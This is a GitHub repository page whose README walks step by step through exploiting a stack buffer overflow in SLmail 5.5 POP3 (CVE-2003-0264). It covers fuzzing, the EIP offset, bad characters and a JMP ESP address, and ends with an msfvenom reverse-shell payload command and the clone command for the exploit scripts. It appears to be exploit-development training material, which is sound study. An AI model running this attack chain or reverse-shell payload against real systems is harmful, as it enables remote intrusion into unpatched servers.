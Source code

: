 # CVE-2003-0264_EXPLOIT

Buffer Overflow in Seattle Lab Mail (SLmail) 5.5 - POP3

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/SxNade](https://github.com/SxNade) |
| Url      | [https://github.com/SxNade/CVE-2003-0264_EXPLOIT](https://github.com/SxNade/CVE-2003-0264_EXPLOIT)                                               |
| Stars    | 0                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* buffer-overflow* buffer-overflow-attack* cve-2003-0264* cves* exploit-development* memory-corruption* stack-based* stack-overflow

</details>

## Readme

# CVE-2003-0264_EXPLOIT
Buffer Overflow in Seattle Lab Mail (SLmail) 5.5 - POP3

*`Simple STACK BAsed BUffer Overflow Step By Step`*

# 1) FUZZ The Application

`In the very First Step we will Fuzz The Application With a Simple Spike Script`

`meanwhile we wil also have SLmail attached[and running] to immunity Debugger`

*More On Spike:: https://resources.infosecinstitute.com/topic/intro-to-fuzzing/*

*In Here is a Simple Spike Script named spike_fuzz.spk*

`we will run it against the application using command`

      line_send_tcp 192.168.1.117 110 spike_fuzz.spk

`where 192.168.1.117 is the IP of Target Machine Running SLMail and it is Running On Port 110`

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/spike-fuzz.gif)

*Meanwhile if we see immunity we will see that the application has crashed*

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/spike-fuzz.png)


# 2) POC For Replicating the Crash

`Now we will create a python POC that Replicates the crash and calculates the bytes at which the application crashes`

               python poc_crash.py

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/poc-crash.gif)

# 3) Finding The Offset

`For Finding the offset we will utilize msf`


          1. First Generate a pattern
          2. Note the EIP
          3. Query that EIP and Length with MSF to Find the Offset


`msf-pattern_create -l 2700`

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/msf-pattern_create.png)

*In poc_offset.py we will utilize this pattern as our Overflow Buffer!*

           python poc_offset.py

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/poc-offset.gif)

*At this Point we also Note the EIP Value in immunity where the Application has crashed and paused*

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/eip.png)


            EIP is 39694438
            ::For Finding Offset::
            
            msf-pattern_offset -l 2700 -q 39694438

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/offset.png)

*offset is 2606 means 2606 bytes Before we reach EIP::: and EIP itself is 4bytes Long*

# 4) Controlling The EIP

`Now we will Try TO Overwrite the EIP with 4B's ie:: in immunity we should have 42424242 {Hex for 4 B's}`

            python poc_eip_control.py

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/poc-eip-control.gif)

*And Now if we Check immunity*

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/poc_eip_control.png)

# 5) Finding Bad Chrachters

`To keep this simple and short`

*You can run the poc_badchars.py script and  then Find Bad Chrachters yourself*

`For Keeping this short`

*This application has two bad charachters {which are also the default ones} when we run the poc_badchars.py first time we will see that the charcahter \x0a acts up and then we will remove this from our bad chars payload and then run the script again ,,, second time we will see that the charcahter \x0d is skipped so this is our second bad char and we remove it from our payload :: after this when we run the script third time everything is clear and good!!*

            badchars are :: \x00\x0a\x0d
            {nullbyte, Line feed, carriage return}

            python poc_badchars.py

# 6) Finding The Rigth Module and address

`First we Find the right Module using Mona Modules in immunity`

                  slmfc.dll is the most appropriate candidate as it does not have memory protections!

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/right_module.png)

`and now we find a JMP ESP address in this DLL`

`This address will be written to EIP so that we can redirect the Execution of Program to ESP which will result in the Execution of our shellcode!`

            !mona find -s "\xff\xe4" -m slmfc.dll
            
            {\xff\xe4 opcode equivalent of JMP ESP}

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/jmp_esp.png)

`from 19 pointer addresses we choose the First one`

# 7) Dropping A Shell

`Now We will Put all this Together and Drop a Shell`

                  1.) generate the shell code {excluding badchars}
                  2.) adding the address we Found {remeber Little Endian}
                  3.) Add the buffer , return address, some nop-sleds, shellcode
                  4.) we have a shell

*Lets Quicly Generate shell code using msfvenom*

            msfvenom -p windows/shell_reverse_tcp LHOST=<lstening-ip> LPORT=<listening-port> EXITFUNC=thread -f py -a x86 -b "\x00\x0a\x0d"

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/shellcode.gif)

*WE put everything together in exploit.py File*

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/all.gif)

*Now this time we run SLmail without immunity and also Listen For Incoming Conncections simuntaneously*

`once done with This we will run the Final exploit.py script!`

![Capture](https://github.com/SxNade/SxNade.github.io/blob/main/shell.gif)

**EXCELLENT WE HAVE A SHELL!**



## Get the content

```
git clone https://github.com/SxNade/CVE-2003-0264_EXPLOIT
cd CVE-2003-0264_EXPLOIT
```

{% embed url="https://github.com/SxNade/CVE-2003-0264_EXPLOIT" %}

<figure><img src="https://avatars.githubusercontent.com/u/73271976?v=4" alt=""><figcaption><p>SxNade</p></figcaption></figure>

